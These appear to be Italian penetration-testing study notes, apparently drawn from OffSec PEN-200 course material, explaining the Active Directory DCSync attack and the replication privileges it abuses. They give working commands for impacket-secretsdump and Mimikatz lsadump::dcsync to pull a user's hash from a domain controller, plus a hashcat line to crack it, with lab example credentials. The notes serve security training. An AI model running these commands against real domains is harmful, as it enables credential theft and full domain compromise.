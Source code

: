 Fortunatamente (per un attaccante), il domain controller che riceve una richiesta di update non controlla che il mittente sia un domain controller conosciuto, ma verifica solo che il SID associato abbia i giusti privilegi:
- _Replicating Directory Changes_
- _Replicating Directory Changes All_
- _Replicating Directory Changes in Filtered Set_

 Di default, i membri dei gruppi _Domain Admins_, _Enterprise Admins_, e _Administrators_ hanno questi privilegi assegnati. Quindi se si ottiene accesso ad un account che fa parte di uno di questi tre gruppi si può eseguire un attacco _dcsync_ dove si impersonifica un domain controller, abilitando la possibilità di richiedere qualsiasi credenziale utente dal dominio.

Anche in questo caso ci sono due modi per eseguire questo attacco:
1) Da kali
2) Dalla macchina windows

To perform this attack, we'll use Mimikatz on a domain-joined Windows machine, and _impacket-secretsdump_[5](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/domain-controller-synchronization-46110#fn-local_id_565-5) on our non-domain joined Kali machine for the examples of this section.

1) Utilizzo di _impacket-secretsdump per eseguire l'attacco e di _hashcat_ per ricavare la password:

```bash
impacket-secretsdump -just-dc-user $USER_NAME_TO_REQUEST $DOMAIN/$HIGH_PRIVILEGE_ACCOUNT:"$PASSWORD"@$TARGET_IP

Esempio:

impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70


hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

2) Utilizzo di _Mimikatz_ su windows per eseguire un attacco _dcsync_:

```bash
.\mimikatz.exe

lsadump::dcsync /user:$DOMAIN\$USER_NAME_TO_REQUEST

Esempio:

lsadump::dcsync /user:corp\dave
```

Una volta ottenuto l'hash tramite _Mimikatz_ occorre utilizzare _hashcat_ per ricavare la password.
